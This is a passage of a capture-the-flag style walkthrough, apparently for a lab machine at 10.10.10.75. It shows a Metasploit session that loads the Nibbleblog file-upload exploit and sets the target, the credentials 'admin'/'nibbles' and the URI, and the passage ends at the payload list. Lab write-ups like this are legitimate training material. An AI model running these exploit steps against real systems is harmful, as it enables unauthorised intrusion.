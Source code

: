 Now let's try to exploit this vulnerability using Metasploit

```console
msf > search nibbleblog

Matching Modules
================

   Name                                       Disclosure Date  Rank       Description
   ----                                       ---------------  ----       -----------
   exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Nibbleblog File Upload Vulnerability

```

Now let's load the exploit

```console
msf > use exploit/multi/http/nibbleblog_file_upload

msf exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host

   Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf exploit(multi/http/nibbleblog_file_upload) > set rhost 10.10.10.75
rhost => 10.10.10.75

msf exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin

msf exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles


msf exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog
targeturi => /nibbleblog

msf exploit(multi/http/nibbleblog_file_upload) > show payloads

Compatible Payloads
===================

   Name                                Disclosure Date  Rank    Description
   ----                                ---------------  ----    -----------
   generic/custom                                       normal  Custom Payload
```
